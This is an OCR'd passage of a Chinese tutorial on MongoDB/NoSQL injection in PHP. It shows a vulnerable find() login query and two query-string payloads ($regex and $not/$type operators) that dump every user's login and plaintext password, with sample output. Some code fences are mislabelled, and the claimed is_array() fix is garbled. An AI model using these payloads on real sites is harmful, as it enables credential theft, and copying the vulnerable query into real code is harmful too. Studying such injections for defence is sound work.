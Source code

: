 因此，输出admin数据（True）。 这个问题可以通过函数is_array（）将输入参数转变为字符串类型来解决。

注意正则表达式可以并且应该用在诸如findOne（）和find（）这样的函数中。使用的例子：

```php
db.items.find({name: {$regex: "^y"}})
```

该请求将找到以字母y开头的用户。 假设在脚本中使用了对数据库的以下请求：

```cobol
$cursor1=$collection->find(array("login"=>$user, "pass" => $pass));
```

从数据库接收到的数据将以下面的结构显示在页面上：

`echo 'id: '. $obj2['id'] .'<br>login: '.  $obj2['login']`

`.'<br>pass: '. $obj2['pass'] . '<br>';`

正则表达式可以帮助我们收集到我们想要的所有数据 ，我们所要做的仅仅是将收集到信息转换为脚本所需要的数据类型：

```ruby
?login[$regex]=^&password[$regex]=^
```

我们将收到以下回复：

`id: 1`

`login: Admin` 

`pass: parol` 

`id: 4`

`login: user2` 

`pass: godloveman` 

`id: 5`

`login: user3` 

`pass: thepolice=`

此外还有另一种方法来利用该漏洞：

```cobol
?login[$not][$type]=1&password[$not][$type]=1
```

在这种情况下输出如下：

`login: Admin` 

`pass: parol` 

`id: 4`

`login: user2` 

`pass: godloveman` 

`id: 5`
